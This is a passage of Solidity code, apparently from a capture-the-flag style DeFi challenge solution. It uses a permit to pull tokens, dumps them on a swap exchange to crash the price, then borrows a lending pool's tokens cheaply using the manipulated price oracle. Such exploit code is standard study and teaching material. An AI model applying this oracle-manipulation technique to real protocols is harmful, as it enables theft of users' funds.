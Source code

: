 ```solidity
            type(uint256).max,
            v,r,s
        ));
        token.functionCall(abi.encodeWithSignature(
            "transferFrom(address,address,uint256)",
            msg.sender,
            address(this),
            playerToken
        ));

        bytes memory ans = token.functionCall(abi.encodeWithSignature(
            "balanceOf(address)",
            address(this)
        ));
        console.log("after transfering...");
        console.log(abi.decode(ans,(uint256)));


        console.log("before swapping");
        console.log(address(this).balance);

        token.functionCall(abi.encodeWithSignature(
            "approve(address,uint256)",
            swap,
            playerToken
        ));

        swap.call(
            abi.encodeWithSignature(
            "tokenToEthSwapInput(uint256,uint256,uint256)", 
            playerToken,
            1,
            type(uint256).max
            )
        );

        console.log("after swapping");
        console.log(address(this).balance);


        (bool suc, bytes memory response) = pool.staticcall(abi.encodeWithSignature(
            "calculateDepositRequired(uint256)", 
            poolToken));
        console.log(suc);
        
        uint256 requiredETH = abi.decode(response,(uint256));
        console.log("requiredETH");
        console.log(requiredETH);

        pool.functionCallWithValue(
            abi.encodeWithSignature
                ("borrow(uint256,address)", poolToken, msg.sender)
            ,
            requiredETH);
        
        swap.functionCallWithValue(
            abi.encodeWithSignature(
                "ethToTokenSwapOutput(uint256,uint256)", 
                playerToken,
                type(uint256).max
            ),
            10 ether + 1
        );
```